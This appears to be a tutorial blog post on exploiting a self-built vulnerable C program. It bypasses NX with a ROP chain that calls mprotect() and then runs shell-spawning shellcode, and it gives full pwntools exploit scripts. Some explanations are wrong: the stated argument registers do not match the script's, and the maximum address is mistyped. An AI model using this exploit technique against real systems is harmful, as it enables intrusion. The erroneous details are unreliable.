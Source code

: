 ```yaml
---
layout: post
title:	"ELF x64 Bypass NX with mprotect()"
date:	2020-08-25
categories:
    - blog
tags:
    - binary
---
```



In this blogpost, I’ll explain how to bypass NX using **mprotect()** in order to make the stack executable.

For the purpose, I created the following vulnerable C program.

~~~
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
~~~

This is the gcc command to compile the executable with NX enabled and PIE disabled.

~~~
gcc -o chall chall.c -fno-stack-protector -no-pie -Wl,-z,noexecstack
~~~

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img1.png)

ASLR is disabled and NX is enabled:

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img2.png)
![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img3.png)

Let’s run the executable in GDB. In order to trigger the buffer overflow we will give 300 ‘A’s as input.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img4.png)

as we expected, the **RBP** register is overwritten with our ‘A’s.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img5.png)

Using pattern_create, we can generate a payload in order to calculate the exact offset that overwrite the **RBP** register.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img6.png)

The **RBP** register is overwritten by the value **0x3769413669413569**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img7.png)

Using pattern_offset, we can calculate the offset.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img8.png)

Because the executable is a 64 bit ELF, the maximum address is **0x7FFFFFFFFFFFF**, we can overwrite the **RIP** register by adding 8 byte to the **RBP** register and using the following value.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img9.png)

We successfully overwrite the **RIP** register with the value **0x0000424242424242**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img10.png)

Because NX is enabled, our stack is not executable, we can use the **[mprotect()](https://www.man7.org/linux/man-pages/man2/mprotect.2.html)** function in order to make the stack executable.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img11.png)

as reported in the documentation:

~~~
mprotect() changes the access protections for the calling process's memory pages containing any part of the address range in the interval [addr, addr+len-1].  addr must be aligned to a page boundary.

If the calling process tries to access memory in a manner that violates the protections, then the kernel generates a SIGSEGV signal for the process.

prot is a combination of the following access flags: PROT_NONE or a bitwise-or of the other values in the following list: 

PROT_NONE: The memory cannot be accessed at all.

PROT_READ: The memory can be read.

PROT_WRITE: The memory can be modified.

PROT_EXEC: The memory can be executed.

...
~~~

We will set address to **0x7fffffffe000**, the value **0x1000** as length and the protection to **RWX**, which is **0x7**.

The calling convention for ELF 64 is the following: 
* Arguments in RDI, RSI, RDX, RCX, R8, R9 
* Return Value in RAX 

So we need to put the stack address in the **RDI** register, the length in the **RDX** register and the value **0x7** in the **RCX** register.

Using gdb, it is possible to find the **mprotect()** address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img12.png)

Using ROPgadget, we can find the gadgets we need to put the values into the registers.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img13.png)

There is no “pop rdx” instruction in our binary, we can look for it into the libc.

Using the vmmap command, we can see the libc address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img14.png)

And with ROPgadget, we can find the offset of the gadget.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img15.png)



Using the following exploit, we can use the “attach” command into gdb in order to debug the process and find our shellcode address.

~~~
from pwn import *
import struct

p = process("./chall")

libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += struct.pack("Q",0x00000000004011fb) # pop rdi ; ret
payload += struct.pack("Q",0x7fffffffe000) # stack address
payload += struct.pack("Q",0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += struct.pack("Q",0x1000) # size
payload += struct.pack("Q",0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += struct.pack("Q",libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += struct.pack("Q",0x7) #mode
payload += struct.pack("Q",0x7ffff7eea1e0) # mprotect address
payload += “B” * 8
payload += "C” * 200
raw_input()

p.sendline(payload)
p.readline()
p.interactive()
~~~

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img16.png)

As we can see, our ‘C’s start from **0x7fffffffe210**.
Let’s update our script with a shellcode and try to pop a bash shell, after the **mprotect()**, our stack will be executable.

~~~
from pwn import *
import struct

p = process("./chall")

shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += struct.pack("Q",0x00000000004011fb) # pop rdi ; ret
payload += struct.pack("Q",0x7fffffffe000) # stack address
payload += struct.pack("Q",0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += struct.pack("Q",0x1000) # size
payload += struct.pack("Q",0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += struct.pack("Q",libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += struct.pack("Q",0x7) #mode
payload += struct.pack("Q",0x7ffff7eea1e0) # mprotect address
payload += struct.pack("Q",0x7fffffffe210) # shellcode address
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
~~~

And yes, it works.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img17.png)

